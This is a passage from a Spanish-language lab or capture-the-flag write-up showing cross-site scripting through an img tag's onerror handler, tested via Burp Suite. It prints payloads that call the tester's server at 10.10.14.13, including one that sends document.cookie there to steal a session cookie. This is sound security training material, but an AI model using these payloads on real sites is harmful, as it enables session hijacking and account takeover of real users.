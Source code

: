 Es importante ponerlo con URL Encode ya que si no falla. Si ahora enviamos esta solicitud y nos vamos a la consola donde montamos el servidor, vemos que hay una solicitud por GET:

![image](../zimages/Pasted_image_20241103183949.png)

Vamos a probar con algo más agresivo para intentar ver si podemos secuestrar una cookie de sesión. Con las etiquetas "<img/>", existe un parámetro llamado "onerror=", que sirve para hacer algo alternativo si la url que ponemos en src no es accesible, vamos a hacer el siguiente comando a ver si se realiza correctamente:

```html
<img src="http://10.10.14.13/prueba" onerror=fetch("http://10.10.14.13/prueba12345") />

# Que URL encodeado para ponerlo en Burpsuite se vería así: 

<!--
<img+src%3d"http%3a//10.10.14.13/prueba"+onerror%3dfetch("http%3a//10.10.14.13/prueba12345")+/>
-->
```

Y vemos que nos envía las 2 solicitudes a nuestro server de python:

![image](../zimages/Pasted_image_20241103185122.png)

Así que ahora vamos a probar a añadir en la solicitud que se nos envíe la cookie de sesión, de la siguiente manera:

```html
<!-- URL ENCODED para Burpsuite:
<img+src%3d"http%3a//10.10.14.13/prueba"+onerror%3dfetch("http%3a//10.10.14.13"%2bdocument.cookie)+/> -->

# Etiqueta normal:

<img src="http://10.10.14.13/prueba" onerror=fetch("http://10.10.14.13"+document.cookie) />
```

Y esto nos envía al server de python:

![image](../zimages/Pasted_image_20241103185817.png)
